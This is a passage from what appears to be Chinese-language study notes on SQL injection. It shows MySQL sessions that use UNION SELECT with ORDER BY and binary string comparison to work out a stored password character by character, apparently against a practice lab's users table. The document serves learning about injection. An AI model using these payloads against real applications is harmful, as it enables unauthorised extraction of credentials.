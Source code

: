 ```sql
```

必须要用到 union 连接, 并且需要知道字段数

## order by 盲注

order by 的注入也是属于一个大类里面的, 要讲的内容很多, 这里先简单写一下无列名的 order by 盲注

```sql
mysql> select * from users where id=1 union select 1,2,binary 'D' order by 3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | 2        | D        |
|  1 | Dumb     | Dumb     |
+----+----------+----------+
2 rows in set (0.00 sec)

mysql> select * from users where id=1 union select 1,2,binary 'Du' order by 3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | 2        | Du       |
|  1 | Dumb     | Dumb     |
+----+----------+----------+
2 rows in set (0.00 sec)

mysql> select * from users where id=1 union select 1,2,binary 'Dx' order by 3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
|  1 | 2        | Dx       |
+----+----------+----------+
2 rows in set (0.00 sec)
mysql> select * from users where id=1 union select 1,2,binary 'Dz' order by 3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
|  1 | 2        | Dz       |
+----+----------+----------+
2 rows in set (0.00 sec)
```

前面加上 binary 是为了区分大小写

本质上是利用 order by 按字母顺序排序的特点, 如果我们输入的数据前几位符合 password 的内容, 会优先显示我们的数据, 如果输入的数据不符合的话, 就会显示原本的数据 (也可以加上 asc desc 改一下显示顺序)

但是这种方法好像无法跨表查询 (?) 不知道有没有可行的 payload

## ascii 比较盲注

